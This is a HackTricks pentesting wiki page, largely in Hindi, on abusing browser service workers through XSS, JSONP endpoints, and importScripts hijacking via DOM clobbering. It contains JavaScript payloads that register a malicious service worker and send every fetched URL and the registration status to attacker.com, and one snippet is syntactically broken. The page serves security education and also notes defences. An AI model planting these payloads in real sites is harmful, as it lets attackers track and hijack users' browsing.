 # Abusing Service Workers



{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

एक **सर्विस वर्कर** एक स्क्रिप्ट है जो आपके ब्राउज़र द्वारा बैकग्राउंड में चलती है, किसी भी वेब पृष्ठ से अलग, ऐसी सुविधाओं को सक्षम करती है जिन्हें वेब पृष्ठ या उपयोगकर्ता इंटरैक्शन की आवश्यकता नहीं होती, इस प्रकार **ऑफलाइन और बैकग्राउंड प्रोसेसिंग** क्षमताओं को बढ़ाती है। सर्विस वर्कर्स पर विस्तृत जानकारी [यहां](https://developers.google.com/web/fundamentals/primers/service-workers) मिल सकती है। एक कमजोर वेब डोमेन के भीतर सर्विस वर्कर्स का शोषण करके, हमलावर पीड़ित के सभी पृष्ठों के साथ इंटरैक्शन पर नियंत्रण प्राप्त कर सकते हैं।

### Checking for Existing Service Workers

मौजूदा सर्विस वर्कर्स को **डेवलपर टूल्स** में **एप्लिकेशन** टैब के **सर्विस वर्कर्स** सेक्शन में चेक किया जा सकता है। एक और तरीका है [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) पर जाकर अधिक विस्तृत दृश्य प्राप्त करना।

### Push Notifications

**पुश नोटिफिकेशन अनुमतियाँ** सीधे एक **सर्विस वर्कर** की सर्वर के साथ संवाद करने की क्षमता को प्रभावित करती हैं बिना सीधे उपयोगकर्ता इंटरैक्शन के। यदि अनुमतियाँ अस्वीकृत की जाती हैं, तो यह सर्विस वर्कर की निरंतर खतरे के रूप में संभावनाओं को सीमित करता है। इसके विपरीत, अनुमतियाँ देने से सुरक्षा जोखिम बढ़ जाते हैं क्योंकि यह संभावित शोषण के रिसेप्शन और निष्पादन को सक्षम करता है।

## Attack Creating a Service Worker

इस कमजोरी का शोषण करने के लिए आपको निम्नलिखित खोजने की आवश्यकता है:

* सर्वर पर **मनमाने JS** फ़ाइलों को **अपलोड** करने का एक तरीका और अपलोड की गई JS फ़ाइल के **सर्विस वर्कर को लोड करने के लिए एक XSS**
* एक **कमजोर JSONP अनुरोध** जहां आप **आउटपुट (मनमाने JS कोड के साथ)** को **हेरफेर** कर सकते हैं और एक **XSS** जो **पेलोड के साथ JSONP को लोड करेगा** जो **एक दुर्भावनापूर्ण सर्विस वर्कर** को **लोड करेगा**।

अगले उदाहरण में मैं एक कोड प्रस्तुत करने जा रहा हूँ जो **एक नया सर्विस वर्कर रजिस्टर** करेगा जो `fetch` इवेंट को सुनेगा और **प्रत्येक फेच की गई URL को हमलावर के सर्वर पर भेजेगा** (यह वह कोड है जिसे आपको **सर्वर** पर **अपलोड** करने की आवश्यकता होगी या एक **कमजोर JSONP** प्रतिक्रिया के माध्यम से लोड करने की आवश्यकता होगी):
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
और यह वह कोड है जो **कार्यकर्ता को पंजीकृत** करेगा (यह कोड आपको **XSS** का दुरुपयोग करते हुए निष्पादित करने में सक्षम होना चाहिए)। इस मामले में एक **GET** अनुरोध **हमलावरों** के सर्वर पर भेजा जाएगा **सूचित** करने के लिए कि सेवा कार्यकर्ता का **पंजीकरण** सफल था या नहीं:
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
यदि आप एक कमजोर JSONP एंडपॉइंट का दुरुपयोग कर रहे हैं, तो आपको मान को `var sw` के अंदर रखना चाहिए। उदाहरण के लिए:
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
There is a **C2** dedicated to the **exploitation of Service Workers** called [**Shadow Workers**](https://shadow-workers.github.io) that will be very useful to abuse these vulnerabilities.

The **24-hour cache directive** limits the life of a malicious or compromised **service worker (SW)** to at most 24 hours after an XSS vulnerability fix, assuming online client status. To minimize vulnerability, site operators can lower the SW script's Time-To-Live (TTL). Developers are also advised to create a [**service worker kill-switch**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) for rapid deactivation.

## Abusing `importScripts` in a SW via DOM Clobbering

The function **`importScripts`** called from a Service Worker can **import a script from a different domain**. If this function is called using a **parameter that an attacker could** modify he would be able to **import a JS script from his domain** and get XSS.

**यह CSP सुरक्षा को भी बायपास करता है।**

**Example vulnerable code:**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### DOM क्लॉबरिंग के साथ

DOM क्लॉबरिंग क्या है, इसके बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

यदि URL/डोमेन जहां SW **`importScripts`** को कॉल करने के लिए उपयोग कर रहा है, **एक HTML तत्व के अंदर** है, तो इसे **DOM क्लॉबरिंग के माध्यम से संशोधित करना संभव है** ताकि SW **आपके अपने डोमेन से एक स्क्रिप्ट लोड करे**।

इसका उदाहरण देखने के लिए संदर्भ लिंक देखें।

## संदर्भ

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
